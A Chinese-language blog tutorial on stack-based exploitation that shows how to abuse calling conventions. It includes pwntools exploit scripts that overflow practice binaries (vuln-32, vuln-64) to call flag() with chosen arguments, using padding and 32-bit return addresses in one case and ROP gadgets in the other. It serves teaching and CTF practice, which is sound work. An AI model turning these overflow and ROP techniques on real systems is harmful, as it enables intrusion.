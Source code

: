 ```yaml
---
title: 攻击调用约定
subtitle: 利用调用约定
date: 2023-08-11T15:31:21+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: true
password:
message:
repost:
  enable: false
  url:
---
```


<!--more-->

{{< link href="/pwn_assets/exploiting_with_params.zip" content="exploiting_with_params.zip" title="Download exploiting_with_params.zip" download="exploiting_with_params.zip" card=true >}}

## 32-bit

程序期望在执行函数之前栈是这样的布局：

<div align=center>
  <image src="https://s1.ax1x.com/2023/08/11/pPn3RoV.png"/>
</div>

那么我们为什么不这样提供呢？除了函数之外，我们还传递返回地址和参数：

<div align=center>
  <image src="https://s1.ax1x.com/2023/08/11/pPn3hJU.png"/>
</div>

`flag()` 地址之后的所有内容都将成为下一个函数的栈帧的一部分，因为它 **预期** 在那里
——只是我们没有使用 `push` 指令，而是手动覆盖它们。

```python {title="exp.py"}
from pwn import *

p = process('./vuln-32')

# Padding 到 EIP
payload = b'A' * 52
# flag() 的地址
payload += p32(0x080491c7)
# 返回地址 - 不在乎完成后是否崩溃
payload += p32(0x0)
# 第一个参数
payload += p32(0xdeadc0de)
# 第二个参数
payload += p32(0xc0ded00d)

log.info(p.clean())
p.sendline(payload)
log.info(p.clean())
```

## 64-bit

相同的逻辑，只不过我们必须利用之前讨论过的 gadgets 来填充所需的寄存器（在本例中为
`rdi` 和 `rsi` ，因为我们有两个参数）。

我们必须在 *调用函数之前* 填充寄存器：

```python {title="exp.py"}
from pwn import *

p = process('./vuln-64')

POP_RDI, POP_RSI_R15 = 0x4011fb, 0x4011f9

# Padding
payload = b'A' * 56
# pop rdi; ret
payload += p64(POP_RDI)
# 进入 rdi 的值 - 第一个参数
payload += p64(0xdeadc0de)
# pop rsi; pop r15; ret
payload += p64(POP_RSI_R15)
# 进入 rsi 的值 - 第二个参数
payload += p64(0xc0ded00d)
# 进入 r15 的值 - 不重要
payload += p64(0x0)
# flag() 的地址
payload += p64(0x40116f)
payload += p64(0x0)

log.info(p.clean())
p.sendline(payload)
log.info(p.clean())
```

